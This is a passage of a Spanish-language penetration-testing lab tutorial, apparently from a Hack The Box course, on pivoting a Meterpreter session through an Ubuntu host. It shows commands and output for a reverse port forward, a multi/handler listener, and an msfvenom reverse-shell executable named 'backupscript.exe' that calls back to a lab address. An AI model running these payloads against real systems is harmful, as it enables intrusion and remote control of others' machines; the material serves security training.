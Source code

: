 #### Reglas de reenvío de puertos inversos

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

#### Configuración e inicio de multi/handler

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

Ahora podemos crear una carga útil de shell inverso que enviará una conexión de regreso a nuestro servidor Ubuntu en `172.16.5.129`: `1234`cuando se ejecuta en nuestro host de Windows. Una vez que nuestro servidor Ubuntu reciba esta conexión, la reenviará a `attack host's ip`: `8081` que configuramos.

#### Generando la carga útil de Windows

Túneles y reenvío de puertos de Meterpreter

```python
G41i130Q@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Finalmente, si ejecutamos nuestra carga útil en el host de Windows, deberíamos poder recibir un shell de Windows pivotado a través del servidor Ubuntu.

#### Estableciendo la sesión de Meterpreter

Túneles y reenvío de puertos de Meterpreter
